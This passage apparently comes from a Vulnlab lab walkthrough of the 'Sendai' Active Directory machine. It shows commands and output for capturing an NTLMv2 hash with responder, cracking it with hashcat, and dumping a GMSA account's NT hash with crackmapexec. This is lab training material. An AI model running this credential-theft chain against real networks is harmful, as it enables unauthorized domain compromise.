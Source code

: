 You'll need to wait a few minutes for the LDAP record to update into the environment, it took around 5 minutes for me. We'll boot up `responder` to wait for incoming LDAP requests to our attacker machine.

```
└─$ sudo responder -I tun0      
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0
```

After we've waited long enough, we should be able to submit a request to our controlled subdomain into DownDetector. You may receive an error, however if we look back at `responder` you'll see that an NTLM hash was captured.

```
[+] Listening for events...                                                                                                   

[HTTP] NTLMv2 Client   : 10.10.98.227
[HTTP] NTLMv2 Username : SENDAI\websvc
[HTTP] NTLMv2 Hash     : websvc::SENDAI:7ddba3792facbeff:2B[...snip...]00000000000000
```

We can crack this hash using `hashcat`, to which we'll be using a hash identifier value of 5600.

```
└─$ hashcat -a 0 -m 5600 websvc.txt /usr/share/wordlists/rockyou.txt
......
2366e65c8e9a29435777b0a001000000000000000000000000000000000000900240048005400540050002f00640061007a002e00730065006e006400610069002e0076006c000000000000000000:[...snip...]
   
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
```

As you can see, we were successfully able to crack the hash for `websvc`. Looking back at Bloodhound, we can see that this user is within the `admsvc` group along with the `Elliot.Yates` user that we added to in Method #1.

![](/images/vulnlab/sendai-vl/g.png)

This means we can also use `crackmapexec` along with `websvc` creds to read the GMSA password and get the NT hash for `mgtsvc$`.

```
└─$ crackmapexec ldap 10.10.98.227 -u 'websvc' -p '(WEBSVC PASSWORD)' --gmsa          
SMB         10.10.98.227    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
LDAP        10.10.98.227    636    DC               [+] sendai.vl\websvc:[...snip...] 
LDAP        10.10.98.227    636    DC               [*] Getting GMSA Passwords
LDAP        10.10.98.227    636    DC               Account: mgtsvc$              NTLM: 52ece[...snip...]4c1a20
```
